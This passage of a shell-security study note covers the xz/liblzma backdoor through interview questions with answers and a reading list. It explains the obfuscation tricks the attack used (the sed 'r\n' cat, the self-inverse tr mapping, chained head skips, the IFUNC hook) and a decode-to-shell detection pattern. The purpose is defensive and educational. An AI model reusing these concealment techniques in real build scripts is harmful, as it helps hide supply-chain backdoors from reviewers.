Use a different tool when the task is detection at scale: an SBOM, reproducible-build comparison and a dist-vs-git diff in CI are stronger than any shell scanner.
A scanner like the lab's catches a known shape and teaches the pattern; it will not catch the next obfuscation.

## Interview questions

> [!question] L5: Why does `sed "r\n" file` print the file, and what does it have to do with the xz backdoor?
>
> > [!success]- Answer
> > In `sed`, `r` reads the file named by the rest of the line and appends it to the output, and with no `-n` every input line is printed as well.
> > Here the file operand is the literal two characters `\n`, which does not exist.
> > POSIX.1-2024 XCU `sed` says a missing `rfile` is treated as empty with no error, so `sed "r\n"` is a `cat`.
> > The injected macro used it to hide a `cat` of the data file inside a pipeline.
> >
> > Follow-up: What would `sed "r\n"` do if a file named `\n` existed in the current directory?

> [!question] L5: What does `tr "\t \-_" " \t_\-"` do when applied twice?
>
> > [!success]- Answer
> > It maps tab to space, space to tab, hyphen to underscore and underscore to hyphen, so applying it twice restores the input.
> > It is its own inverse, so the same command both un-corrupts and corrupts the data file.
> > The lab checks this on `a b<TAB>c-d_e`.
> >
> > Follow-up: Why is a substitution cipher with all 256 byte values in `tr` invertible?

> [!question] L5: Predict the output of `sh -c '[ ! $(uname)="Linux" ] && echo A; [ ! x = y ] && echo B; echo C'`.
>
> > [!success]- Answer
> > It prints `B` then `C`, and never `A`.
> > In the first test there are no spaces around `=`, so after expansion `[` sees `!` and one non-empty word; POSIX.1-2024 XCU `test` for two arguments with `!` returns true only if the second is null, so the test is false.
> > The second test is a proper comparison: `x = y` is false, `!` makes it true, so `B` prints.
> >
> > Follow-up: Which ShellCheck code reports the first form, and does quoting the command substitution fix it?

> [!question] L6: Debug this gate, which is meant to proceed only on x86_64 glibc Linux: what does `if ! (echo "$build" | grep -Eq "^x86_64") && (echo "$build" | grep -Eq "linux-gnu$"); then exit 0; fi` actually do?
>
> > [!success]- Answer
> > `!` applies to the first pipeline only (POSIX.1-2024 XCU 2.9.2), so the condition is "not x86_64 and linux-gnu".
> > It exits for `aarch64-unknown-linux-gnu`, and it proceeds for `x86_64-apple-darwin23` and `x86_64-pc-linux-musl`.
> > Fix it with `if ! { A && B; }`, or write the positive condition and exit in the `else` branch, and test it with positive and negative triplets.
> >
> > Follow-up: What other gates in the xz script made the weak architecture check harmless in practice?

> [!question] L6: Why does the xz hook not appear in a review of the git repository, and how would you detect it from a tarball?
>
> > [!success]- Answer
> > The macro `m4/build-to-host.m4` was not in git; it existed only in the uploaded 5.6.0 and 5.6.1 tarballs, and the data it decoded was committed as test fixtures.
> > Compare the tarball tree with the tagged tree and treat every extra file as suspect; for extra `.m4` files, compare against the upstream gnulib copy.
> > Then scan the extras for decode-to-shell pipelines such as `eval ... | $SHELL`.
> >
> > Follow-up: Why is "regenerate everything with autoreconf" not by itself enough if the macro ships in the tree?

> [!question] L6: Why does the stage-1 chain `eval $i`, where `i` is `(head -c 1024 >/dev/null) && head -c 2048 && ...` reading a pipe, work on Linux and why might it fail elsewhere?
>
> > [!success]- Answer
> > Each `head` must consume exactly its byte count from the shared pipe and leave the rest for the next one.
> > GNU coreutils `head` reads at most the remaining count per `read` (`copy_fd` in `src/head.c`), so the chain works.
> > POSIX.1-2024 XCU 1.4 only guarantees offset positioning for seekable input, and the lab measured macOS `head` printing nothing over a pipe.
> > The attack targeted glibc Linux, so it never needed portability.
> >
> > Follow-up: How would you write a portable skip-and-keep with POSIX tools?

> [!question] L6: Why did the attacker bother with `-z now` and an IFUNC resolver?
>
> > [!success]- Answer
> > `-z now` forces all symbols to be bound at startup, and IFUNC resolvers run during binding, so code in a resolver executes early in `ld.so`.
> > At that time the GOT and PLT are still writable; afterwards `-z relro` remaps them read-only.
> > The backdoor's resolver installed an `rtld-audit` hook, waited for `RSA_public_decrypt@plt`, and overwrote its slot before the remap (Freund).
> > A library that only exported ordinary functions would get no such early, privileged hook.
> >
> > Follow-up: Why did the backdoor need `liblzma` to be resolved before the other libraries?

> [!question] L7: Design controls so a distribution cannot ship a tarball-only backdoor again.
>
> > [!success]- Answer
> > Require builds from signed, reproducible source archives generated from the tag (for example `git archive`) and verify the maintainer's tarball against it in CI.
> > Block builds if the diff contains files outside an allowlist of generated Autotools output, and diff those against the toolchain's own copies.
> > Add static scans for decode-to-shell pipelines and fixture-reading build glue as a tripwire, not as the control.
> > Cut dependencies of privileged daemons (OpenSSH 9.8 split, `dlopen` in systemd) and keep reproducible-build comparisons between independent builders.
> > Accept the cost: some projects only publish tarballs and some builds need an older toolchain.
> >
> > Follow-up: How would you handle a project whose only reviewed artefact is a vendored binary blob?

> [!question] L7: Argue for or against banning binary files from test directories.
>
> > [!success]- Answer
> > A ban removes the covert channel but also removes legitimate fixtures: the xz README explains that some decoder tests need hand-crafted bytes with no better source form.
> > A better rule is provenance: each blob needs a generator or a documented origin, the harness must name files explicitly instead of globbing, and build glue must never read fixture directories.
> > Pair that with a tarball-to-tag diff so that even a hidden reader is caught.
> > The residual risk is a maintainer with commit rights, which needs two-person review, not a file rule.
> >
> > Follow-up: How would you enforce "build glue never reads fixture directories" mechanically?

> [!question] L7: Cox's prose says `tail -c +31233` keeps the last 31,233 bytes while Gynvael says it discards 31,232, so how do you decide, and why does it matter in an incident?
>
> > [!success]- Answer
> > Read the specification and test with a known input: POSIX.1-2024 XCU `tail` defines `-c +1` as the first byte, so `+31233` starts at byte 31,233 and discards 31,232.
> > Run `printf 0123456789 | tail -c +4` and get `3456789`, which the lab asserts.
> > In an incident a one-off error in an analysis can send a reverser to the wrong region or let a false negative into a detection rule.
> >
> > Follow-up: What does `tail -c 4` print for the same input?

## Related

Prerequisites: [[Supply-Chain-Pinning-and-Verification]]

Next: [[Restricted-Shells]]

See also: [[Shell-Threat-Model]], [[Piped-Installers]], [[eval-and-sh-c]], [[Command-Injection]], [[Shellshock]], [[Sandboxing-Scripts]], [[Dropping-Privileges]], [[The-eval-Builtin]], [[Pipelines-and-And-Or-Lists]], [[Autoconf-and-configure]], [[Compression-gzip-zstd-xz]], [[tr-cut-and-paste]], [[SSH-Protocol-and-Keys]]

## Further reading

- Andres Freund, "backdoor in upstream xz/liblzma leading to ssh server compromise", oss-security 2024-03-29: the original disclosure, with the decoded script, activation conditions and perf traces.
- Russ Cox, "The xz attack shell script" (https://research.swtch.com/xz-script): the line-by-line annotation of every shell stage.
- Russ Cox, "Timeline of the xz open source attack" (https://research.swtch.com/xz-timeline): dated facts, including the social-engineering phase.
- Lasse Collin, "XZ Utils backdoor" and the XZ Utils review notes (https://tukaani.org/xz-backdoor/): the maintainer's facts, plans and commit-by-commit audit.
- Sam James, "FAQ on the xz-utils backdoor" (gist): design summary and an index of the community analyses.
- Gynvael Coldwind, "xz/liblzma: Bash-stage Obfuscation Explained": the clearest account of the `tr`, `head` and `tail` stages.
- NVD record CVE-2024-3094 and the Red Hat CVE page: scoring and distribution impact.
- CISA alert on CVE-2024-3094: the downgrade advice.
- OpenSSH 9.8 release notes: the `sshd-session` split and the library-free systemd notification.
- POSIX.1-2024 XCU 1.4, 2.9.2, `eval` (2.15), `head`, `tail`, `tr`, `sed`, `test`, `grep`: the specification for every utility the attack used.
- coreutils `src/head.c` (`copy_fd`): why the `head` chain works on a pipe in GNU.
- `ld.so(8)` and the GCC `ifunc` function attribute: the load-time mechanics the backdoor abused.
